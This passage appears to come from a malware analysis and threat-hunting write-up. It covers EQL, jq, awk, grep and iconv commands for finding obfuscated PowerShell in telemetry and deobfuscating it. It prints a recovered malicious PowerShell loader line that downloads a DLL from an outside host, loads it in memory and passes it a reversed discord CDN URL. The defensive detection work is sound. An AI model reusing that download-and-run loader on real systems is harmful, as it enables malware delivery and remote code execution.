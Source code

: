 ```
eql-query --since 'now-180d/d' --size=1000 --compact --fields 'process.command_line' 'intrusion_detection where (process.pe.original_file_name == "PowerShell.EXE" and process.command_line like "*Unicode.GetString*" and process.args like "*replace*")'
```

Next, use **jq** to pass the raw string to **awk** using **jq '.\_source.process.command_line' -r | awk**.

> If you’re doing this iteratively, it’s best to write the results from **eql-query** to a file, and then operate on the results locally until you have your pipeline how you’d like it.

The next step is to capture the strings used in the Powershell **replace** commands so we can perform that function ourselves. The best way to do this using **awk** is by capturing them with a regular expression.

This matches the first and second arguments to replace. The first argument is Unicode and possibly not friendly as an **awk** pattern, so we’ll need to escape it first. Once we’ve made the replacement, we’ll print out the “clean” code, the string to find, and the replacement text.

```
function escape_string( str ) {
    gsub(/[\\.^$(){}\[\]|*+?]/, "\\\\&", str)
    return str
}
{
    match($0, /replace\('\''(.*)'\'' *, *'\''(.*)'\''/, arr);
    str=escape_string(arr[1]);
    rep=arr[2];
    print gensub(str, rep, "g")
}
```

Finally we can **grep** out the Base64 code (using another regex) and reveal the obfuscated Powershell script.

```
grep -oP ''\''\K[A-Za-z0-9+/]+={0,2}(?='\'';)'
```

This automates the manual conversion process we outlined in the Loader, Dropper, and RAT phases above.

```
$RodaCopy = '-¯¯--¯--¯¯';[Byte[]] $DLL = [system.Convert]::FromBase64String((New-Object Net.WebClient).DownloadString('https://tinyurl[.]com/2erph6cs'));[system.AppDomain]::CurrentDomain.Load($DLL).GetType('NwgoxM.KPJaNj').GetMethod('PUlGKA').Invoke($null, [object[]] ('txt.0008tco01/1798128249382884301/325971924996365659/stnemhcatta/moc[.]ppadrocsid.ndc//:sptth' , $RodaCopy , 'တیای' ))
```

Parsing the URLs from this text should be another simple **awk** match, followed by flipping the second URL, however, Powershell’s default encoding is **UTF-16LE** and **awk** only supports **UTF-8** or ASCII encoding. A tool called [**iconv**](https://linux.die.net/man/1/iconv) can perform the necessary conversion.

```
echo "${line}" | base64 -d | iconv -f UTF-16 -t UTF-8 | awk '{ if ( match($0, /'\''([^'\'']+\/\/:s?ptth)'\''/, arr)) { n=split(arr[1],arr2,""); for(i=1;i<=n;i++){s=arr2[i] s}; print s}; if ( match($0, /'\''(https?:\/\/[^'\'']+)'\''/, arr)){ print arr[1] } }'
```
